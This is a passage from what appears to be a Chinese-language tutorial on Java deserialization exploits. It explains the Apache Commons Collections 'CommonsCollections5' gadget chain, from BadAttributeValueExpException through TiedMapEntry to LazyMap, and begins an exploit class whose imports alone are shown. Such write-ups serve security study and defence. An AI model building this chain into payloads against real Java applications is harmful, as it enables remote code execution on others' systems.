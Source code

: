 ```bash
        Object obj = ois.readObject();
        return obj;
    }
}
```

## CommonsCollections5:

BadAttributeValueExpExceptionl 类的 readObject 方法中有 toString 方法，然后 toString 方法能够调用 getValue 方法，然后调用 TiedMapEntry 中的 getValue，后面就能够调用 Lazymap 里面的 get 方法：

[![](assets/1701612311-e93a00adf134acd702024b5ed71b281c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235618-a3aea15c-20cc-1.png)

```bash
package EXP;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.io.FileInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

```